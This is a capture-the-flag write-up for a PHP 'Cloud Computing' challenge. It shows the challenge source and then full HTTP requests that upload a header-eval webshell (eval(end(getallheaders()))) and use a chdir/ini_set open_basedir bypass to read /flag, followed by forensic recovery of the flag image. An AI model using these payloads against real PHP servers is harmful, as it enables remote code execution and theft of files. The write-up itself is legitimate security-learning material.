

I participated with CTF.SG again, but my computer actually died during the first 40 hours so I didn't have time to help out at all, except posting encouraging stuff in our chat.

Although I titled this "Misc", I only tried this one challenge as it looked like the it was the second easiest one after "easyphp". As the challenge site is still up, I plan to try more before it gets taken down - so watch this space for other writeups!

---

## Misc

---

# Cloud Computing

#### Category: Misc | 42 solves | 211 points

<details>
  <summary>Challenge Description</summary>
  
  Welcome to our new cloud function computing platform, enjoy <a href="http://pwnable.org:47780/">here</a>.
</details>

This challenge provides all the source code on the main page, so no bruteforcing is required.

```php
<?php

error_reporting(0);

include 'function.php';

$dir = 'sandbox/' . sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']) . '/';

if(!file_exists($dir)){
  mkdir($dir);
}

switch ($_GET["action"] ?? "") {
  case 'pwd':
    echo $dir;
    break;
  case 'upload':
    $data = $_GET["data"] ?? "";
    if (waf($data)) {
      die('waf sucks...');
    }
    file_put_contents("$dir" . "index.php", $data);
  case 'shell':
    initShellEnv($dir);
    include $dir . "index.php";
    break;
  default:
    highlight_file(__FILE__);
    break;
}
```

There are 3 endpoints: 

- `pwd` that returns the current directory
- `upload` where you can test the WAF by writing data to `index.php`
- `shell` where you might be able to execute RCE if you have the correct payload. 

Actually, I never found the use for `shell` as everything that could be done there was also doable in `upload` for this challenge.

The path in `pwd` is generated on Line 7 - it's the SHA1 hash of your IP and your User Agent, presumably to prevent people from piggybacking and getting the flag by luck. 

So the first thing I did was to fuzz the WAF with `[A-Za-z0-9]` and all the default special characters - so it's less than 100 requests and *probably* within limits of what is allowed, and I found out that it seems to block all uppercase letters, `'`,  backticks, spaces, `|`, `+`, `-` and `.`. Yes, dots too. So with this, we thought that the WAF was too restrictive and the goal should be to bypass the WAF completely, instead of acting within its restrictions.

As we controlled the headers, as shown by how our User-Agent gets processed - we can try to eval the header and thus remove the WAF restriction. Thus we found `eval(end(getallheaders()));`, which we can append as a value to the `data` parameter in `upload` by adding the PHP tag with a newline character, like this: `%3C?php%0a`, which translates to `<?php\n` when URL decoded. 

So we first tried to dump all defined variables by doing this:

```
GET /?action=upload&data=%3C?php%0aeval(end(getallheaders())); HTTP/1.1
Host: pwnable.org:47780
User-Agent: My name is Isopach and I'm a newbie
Connection: close
z: var_dump(get_defined_vars());
    
    
```

which returned the various variables like `$_SERVER`. So we know that we're on the right track.

Moving on, we get `get_current_user()` and find that we are actually `root`, so we should have write privileges, but running `var_dump(is_writable('.'));` returned `bool(false)`. Since we cannot write anything, and with the `open_basedir` restriction in effect, it would be near impossible to traverse out of our current directory. 

And so we got stuck and went to sleep.

So anyway after the CTF ended we read a Chinese writeup and discovered that it was a false negative. The directory was actually writeable. And since we were root it would not make sense for the directory to be not-writeable.

With this in mind, solving was easy - we just have to make a directory and use the `open_basedir` bypass as it was detailed on [Shpik's blog (Korean)](http://blog.shpik.kr/2019/PHP_Open_basedir_Bypass/). By setting `open_basedir` to the directory above the one we control, we can escape (traverse) to the root directory using `chdir('..')` and go to any path from there.

So with this payload:

```
POST /?action=upload&data=%3C?php%0aeval(end(getallheaders())); HTTP/1.1
Host: pwnable.org:47780
User-Agent: My name is Isopach and I'm a newbie
Connection: close
z: error_reporting(E_ALL);mkdir('sandbox/f67debcea755ae8b6050072910fc1a99bddfe823/isopach');chdir('sandbox/f67debcea755ae8b6050072910fc1a99bddfe823/isopach');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');readfile('/flag');
     
     
```

We were able to get the flag!



... or not, since the flag appears to be an `.img` file. So we can't read it directly.

I guess this is the part it stops being `Web` and becomes `Forensics` or `Misc`. You can read my other Forensics blog posts for details on that, but basically all we have to do is to recover the `img` in the usual way - either by Autopsy or Foremost - and we did just that. 

In it, there was an image with the flag.

<details>
  <summary>FLAG</summary>
  
  flag{do_u_like_cloud_computing}
</details>

***
